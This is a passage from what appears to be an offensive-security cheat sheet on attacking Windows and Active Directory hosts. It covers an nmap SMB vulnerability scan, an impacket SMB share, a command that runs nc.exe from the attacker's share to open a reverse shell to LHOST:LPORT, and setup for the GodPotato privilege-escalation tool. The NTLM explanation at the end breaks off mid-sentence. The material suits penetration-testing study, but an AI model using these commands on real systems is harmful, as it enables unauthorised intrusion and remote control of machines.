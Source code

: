 - User and Password: https://github.com/Cryilllic/Active-Directory-Wordlists/tree/master

## Services

### SMB

```
nmap -script=smb-vuln\* -p445 $IP
```

## File Transfer

On Kali:
```
impacket-smbserver -smb2support Share /root/path/to/file
```
On Windows
```
cmd.exe /c //LHOST/Share/nc.exe -e cmd.exe LHOST LPORT
```

## Reverse Shells

If there is a PATH issue fixing it:

```
set PATH=%SystemRoot%\system32;%SystemRoot%;
```
```
set PATH=%PATH%;C:\windows\system32;C:\windows;C:\windows\System32\Wbem;C:\windows\System32\WindowsPowerShell\v1.0\;C:\windows\System32\OpenSSH\;C:\Program Files\dotnet\
```

## Common Issues

If you are not able to find PowerShell, try to run the full path:
```
C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe C:\Windows\Temp\filename.ps1
```
Find correct version of .NET library to run **`GodPotato`**:
```
cd reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP" /s
```
```
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse
```


## NTLM and NetNTLM

New Technology LAN Manager (NTLM) is the suite of security protocols used to authenticate users' identities in AD. NTLM can be used for authentication by using a challenge-response-based scheme called NetNTLM. This authentication mechanism is heavily used by the services on a network. However, services that use NetNTLM can also be exposed to the internet. The following are some of the popular examples:
